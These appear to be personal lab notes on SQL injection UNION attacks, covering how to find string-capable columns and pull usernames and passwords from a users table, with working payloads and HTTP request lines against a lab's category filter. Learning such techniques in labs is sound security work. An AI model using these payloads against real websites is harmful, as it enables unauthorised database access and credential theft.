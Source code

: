 - if error doesn't not occur and application's response contains some additional content including the injected string value
	- green light

### Lab
```sql
'+UNION+SELECT+'abcdef',NULL,NULL--
```


## Retrieving Interesting Data
Suppose that:
- original query returns 2 columns
- both can hold string
- injection point is quoted string with the `WHERE` clause
- the db contains table `users`, with columns `username`, `password`

retrieve contents by submitting
```sql
' UNION SELECT username, password FROM users--
```

What do you need to know to make it work?
- table name (users)
- two column names, username, password


## Retrieving multiple values within a single column
How it's done?
- by concatenating the values together
- include separator to let you distinguish the combined values

Oracle
- || is a string concatenation operator
- concatenates username ~ password
```sql
' UNION SELECT username || '~' || password FROM users--
```


```sql
'foo'+'bar'
' UNION SELECT 'username' + 'password' FROM users--
' UNION SELECT username, password FROM users--
```

Steps to reproduce
- Determine number of columns being returned by query
- Determine which column contain text data
```http
GET /filter?category='+UNION+SELECT+NULL,'a'-- HTTP/2
GET /filter?category='+UNION+SELECT+'a',NULL-- HTTP/2
```

- Retrieve the context of the users table
```http
GET /filter?category='+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/2
```
